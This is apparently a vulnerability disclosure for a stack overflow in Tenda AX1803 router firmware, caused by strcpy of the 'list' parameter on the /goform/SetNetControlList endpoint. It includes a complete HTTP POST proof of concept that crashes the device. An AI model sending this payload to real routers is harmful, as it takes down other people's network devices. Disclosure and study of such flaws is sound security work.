



Affect device: Tenda-AX1803 US_AX1803v2.0br_v1.0.0.1_2994_CN_ZGYD01_4(https://www.tenda.com.cn/download/detail-3421.html)

Vulnerability Type: Stack overflow

Impact:  Denial of Service(DoS)

# Vulnerability description

This vulnerability lies in the `/goform/SetNetControlList` page which influences the lastest version of Tenda-AX1803 US_AX1803v2.0br_v1.0.0.1_2994_CN_ZGYD01_4 (https://www.tenda.com.cn/download/detail-3421.html)

The vulnerability exists in the file `/bin/tdhttpd` , function **formSetQosBand**.



First, the `formSetQosBand` function will call `sub_8C1EC`.



In the `sub_8C1EC` function, the a1 variable holds the value of list, which is then assigned to s by the `strcpy` function. Because `strcpy` has no input length limit, it causes a stack overflow vulnerability.

# POC and repetition

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```python
POST /goform/SetNetControlList HTTP/1.1
Host: 192.168.23.133
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: password=byn5gk
Connection: close
Content-Length: 645

list=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

```

By sending this poc, we can achieve the effect of a denial-of-service(DOS) attack .



